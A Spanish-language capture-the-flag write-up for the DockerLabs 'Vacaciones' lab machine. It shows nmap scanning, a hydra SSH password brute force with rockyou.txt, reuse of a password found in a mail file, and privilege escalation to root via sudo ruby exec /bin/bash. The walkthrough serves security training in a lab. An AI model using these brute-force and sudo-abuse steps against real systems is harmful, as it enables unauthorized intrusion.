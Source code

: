 # Máquina Vacaciones

Dificultad -> Muy fácil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> @romabri

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4116eb546434d169eedcd9219c72a5c1 (RSA)
|   256 f0c42b02503a49a7a234b80961fd2c6d (ECDSA)
|_  256 dfe946319aef0d81311f77e429f5c988 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Al inspeccionar la web encontramos ese comentario en el código fuente:

![Pasted image 20240425184410](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1525b762-1c0b-4d91-a142-fc3fed1ae569)

--------------
## Explotación

Utilizamos hydra con los usuarios **camilo** y **juan** al **ssh**:

```shell
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
```

Encontramos las credenciales de camilo -> **camilo:password1**

Nos conectamos como el usuario camilo y estamos dentro !

------------
## Escalada de privilegios

Revisamos el supuesto correo que nos indicaba en la web:

```shell
cd /var/mail
cd camilo
cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Probamos la contraseña con el usuario **juan** y funciona. -> **juan:2k84dicb**
Hemos migrado al usuario **juan**.

Hacemos un **sudo -l**

```shell
sudo -l
---------------------------------
User juan may run the following commands on b078e5dff54b:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Podemos ejecutar **ruby** como el usuario **root**, si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins]()

```shell
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina.

